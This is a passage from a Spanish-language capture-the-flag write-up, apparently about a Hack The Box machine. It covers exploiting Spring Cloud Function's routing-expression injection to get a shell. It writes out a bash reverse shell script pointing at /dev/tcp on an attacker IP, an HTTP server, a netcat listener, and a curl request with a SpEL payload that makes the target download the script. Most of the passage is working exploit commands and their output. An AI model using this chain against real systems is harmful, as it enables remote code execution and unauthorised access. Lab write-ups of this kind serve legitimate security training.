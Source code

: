 ```bash
recond
rev
rev.sh
reverse.sh
systemd-private-146c32063ab54e548fcb1ba34f876d3b-ModemManager.service-Ou3fni
systemd-private-146c32063ab54e548fcb1ba34f876d3b-systemd-logind.service-b71gZf
systemd-private-146c32063ab54e548fcb1ba34f876d3b-systemd-resolved.service-sTUibi
systemd-private-146c32063ab54e548fcb1ba34f876d3b-systemd-timesyncd.service-Hqsmuf
systemd-private-146c32063ab54e548fcb1ba34f876d3b-upower.service-HOXmQg
test.txt
tmp.HifDEiYMkf
tomcat.8080.2420306893279265226
tomcat-docbase.8080.10176803267819659705
vmware-root_740-2999460834
```

Bueno como se creo ahora vamos a hacer un archivo que contenga la reverse shell en **Bash** para ganar acceso al sistema pero vamos a ponerle un nombre diferente a todos esos que están hay

```bash
❯ nano enviame.sh
❯ catn enviame.sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.213/443 0>&1
```

Ahora vamos a ejecutar un servidor `http` con `Python3`

```bash
❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Y nos vamos a poner en escucha

```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
```

Ahora vamos a subir el archivo mediante una petición por `curl` y lo guardaremos en la carpeta que creamos

```bash
❯ curl -X POST http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl 10.10.14.213:8080/enviame.sh -o /tmp/rev")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/7.88.1
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl 10.10.14.213:8080/enviame.sh -o /tmp/rev")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 500 
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Fri, 07 Jul 2023 19:06:16 GMT
< Connection: close
< 
* Closing connection 0
```